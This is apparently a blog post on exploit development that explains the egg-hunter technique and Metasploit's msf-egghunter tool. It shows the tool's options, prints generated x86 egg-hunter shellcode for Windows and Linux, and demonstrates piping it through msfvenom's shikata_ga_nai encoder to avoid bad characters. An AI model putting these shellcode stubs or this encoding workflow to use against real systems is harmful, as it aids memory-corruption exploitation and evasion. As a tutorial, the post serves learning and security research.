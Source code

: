 ```yaml
---
layout: post
title: "A closer look to msf-egghunter"
image: assets/images/eggs.jpg
bootstrap: true
tags: [exploit development, metasploit framework, egg hunter]
categories: [ ]
author: thesp0nge
---
```


The egghunting is a technique used in exploit writing to deal with evil
shellcode to be placed in a memory location different from the one we are
redirected via EIP overwrite or SEH hijack or other.

The basic idea behind egg hunter is that shellcode is prepended by a 4 bytes
long pattern which is repeated twice and a small routine will search into
memory for this pattern. When the pattern it has been found, the routine will
jump on that memory location that eventually contains the shellcode we want to
execute.

Egg hunting technique is introduced in [Safetly Searching Process Virtual
Address Space](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)
paper by Matt Miller.

I wrote about egg hunting during [my SLAE
journey](https://codiceinsicuro.it/slae/assignment-3-an-egg-hunter-journey/)
back in May 2018.

Today I want to introduce you the
[msf-egghunter](https://github.com/rapid7/metasploit-framework/blob/master/tools/exploit/egghunter.rb)
tool by Metasploit Framework.

Instead of writing your egghunting routine from scratch (hint: do it at least
one time in order to understand how it works), you have a ready to be used
helper with your Metasploit installation.

{%highlight sh%}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -h
Usage: msf-egghunter [options]
Example: msf-egghunter -f python -e W00T

Specific options:
    -f, --format <String>            See --list-formats for a list of supported output formats
    -b, --badchars <String>          (Optional) Bad characters to avoid for the egg
    -e, --egg <String>               The egg (Please give 4 bytes)
    -p, --platform <String>          (Optional) Platform
        --startreg <String>          (Optional) The starting register
        --forward                    (Optional) To search forward
        --depreg <String>            (Optional) The DEP register
        --depdest <String>           (Optional) The DEP destination
        --depsize <Integer>          (Optional) The DEP size
        --depmethod <String>         (Optional) The DEP method to use (virtualprotect/virtualalloc/copy/copy_size)
    -a, --arch <String>              (Optional) Architecture
        --list-formats               List all supported output formats
    -v, --var-name <name>            (Optional) Specify a custom variable name to use for certain output formats
    -h, --help                       Show this message

{%endhighlight%}

The basic usage here is to specify the platform (windows or linux) and the
architecture since the tool will produce different assembler code. The only
mandatory parameter is the egg to be used, BEEF in our case.

{% highlight sh %}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -p windows -a x86 -f python -e BEEF
buf =  ""
buf += "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c"
buf += "\x05\x5a\x74\xef\xb8\x42\x45\x45\x46\x89\xd7\xaf\x75"
buf += "\xea\xaf\x75\xe7\xff\xe7"

[root:~/src/hacking/toolbox/utils]# msf-egghunter -p linux -a x86 -f python -e BEEF
buf =  ""
buf += "\xfc\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c"
buf += "\xf2\x74\xf1\xb8\x42\x45\x45\x46\x89\xcf\xaf\x75\xec"
buf += "\xaf\x75\xe9\xff\xe7"
{% endhighlight %}

What about bad characters than? Accordingly to the tool help message, with the
'-b' parameter you supply the characters to be avoided... but it doesn't work.

My Metasploit version is 5.0.6-dev and if I need to avoid '\x66' character in
the latest example I have some trouble.

{%highlight sh%}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -p linux -a x86 -f python -e BEEF -b '\x66'
buf =  ""
buf += "\xfc\x66\x81\xc9\xff\x0f\x41\x6a\x43\x58\xcd\x80\x3c"
buf += "\xf2\x74\xf1\xb8\x42\x45\x45\x46\x89\xcf\xaf\x75\xec"
buf += "\xaf\x75\xe9\xff\xe7"
{%endhighlight%}

The usage combo I love most is the one with msfvenom. msfvenom is not good only
to create shellcode, instead it could also read a code from standard input and
apply some filters over it.

If we want to avoid the '\x66' character in our egg hunter code, the best way
to achieve it is to ask msfvenom to apply some encoding. Let's do this way:

{%highlight sh%}
[root:~/src/hacking/toolbox/utils]# msf-egghunter -p linux -a x86 -e BEEF -f raw | msfvenom -p - --platform linux -a x86 -b '\x66' -f python

Attempting to read payload from STDIN...
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 58 (iteration=0)
x86/shikata_ga_nai chosen with final size 58
Payload size: 58 bytes
Final size of python file: 292 bytes
buf =  ""
buf += "\xd9\xe9\xbd\x34\x49\xad\xb8\xd9\x74\x24\xf4\x5e\x29"
buf += "\xc9\xb1\x08\x83\xc6\x04\x31\x6e\x16\x03\x6e\x16\xe2"
buf += "\xc1\xb5\xcb\x39\xe0\xb9\x1b\x7b\x98\x06\x7c\xb6\xdc"
buf += "\xb5\x8e\x3c\x2d\x7d\x2c\xf8\x88\x38\x38\xcd\xbd\xb0"
buf += "\xd6\x7d\xb4\xd3\xd8\x65"

{%endhighlight%}

We asked msf-egghunter to output a raw output we pass to msfvenom specifying
the list of bad characters. After the encoder pass, we can see there is no
'\x66' character in out code.

The msf-egghunter core is in the rex-exploit library by Rapid7, you can find
the source code on
[GitHub](https://github.com/rapid7/rex-exploitation/blob/master/lib/rex/exploitation/egghunter.rb).

Looking at the very beginning of the source code, we can read in the comments
the improvements made starting from the Matt Miller's work.
Very clever code is the code to [disable
DEP](https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/)
for Windows platform made by corelandc0d3r

## Off by one

Egg hunting is a very fun technique to be used in exploit development. You tell
the machine to search the memory for the code it must use to compromise itself.

The best combination is with msfvenom to create fancy encoded version of your
egg hunter.

And you? Which is your egg hunting usage when writing exploits? Do you write
custom code or do you write some other tool?

